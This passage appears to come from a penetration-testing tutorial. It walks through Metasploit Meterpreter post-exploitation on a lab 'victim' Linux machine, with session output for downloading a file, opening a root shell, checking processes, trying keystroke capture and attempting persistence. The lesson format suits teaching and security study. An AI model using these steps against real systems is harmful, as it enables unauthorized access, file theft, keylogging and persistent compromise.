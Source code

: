 ```
meterpreter > download /var/www/tikiwiki-old/license.txt
[*] Downloading: /var/www/tikiwiki-old/license.txt -> /root/license.txt
[*] Downloaded 23.81 KiB of 23.81 KiB (100.0%): /var/www/tikiwiki-old/license.txt -> /root/license.txt
[*] download   : /var/www/tikiwiki-old/license.txt -> /root/license.txt
```

You can enter the shell of the system anytime you like with the `shell` command:

```
meterpreter > shell
Process 5502 created.
Channel 2 created.
whoami

root
^C
Terminate channel 2? [y/N]  y
```

Furthermore, there are some networking commands such as – `arp`, `ifconfig`, `netstat`, etc.

You can list the process running in the victim machine with the `ps` command. There is an option to see the PID of the process that has hosted the meterpreter:

```
meterpreter > getpid
Current pid: 5390
```

In Windows systems, you may be able to migrate your meterpreter onto another process using the `migrate` command. You could also get keystrokes by using the `keyscan_start` and `keyscan_dump` depending on the system. On our victim machine, these commands are not supported:

```
meterpreter > keyscan_start
[-] The "keyscan_start" command is not supported by this Meterpreter type (x86/linux)
```

You can always find out the capabilities from the `help` command. Always keep in mind, as long as you have the command execution abilities, you can just upload a script to the victim machine that will do the job for you.

#### Staying persistently on the exploited machine <a href="#post-3536-_heading-h.2u6wntf" id="post-3536-_heading-h.2u6wntf"></a>

As we told you earlier, if the victim system reboots, you will lose your active sessions. You might need to exploit the system once again or start the whole procedure from the very beginning – which might not be possible. If your victim machine runs Windows, there is an option called `persistence` in Metasploit, which will keep your access persistent. To do it you’ll have to use:

```
meterpreter > run persistence

[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
[-] x86/linux version of Meterpreter is not supported with this Script!
```
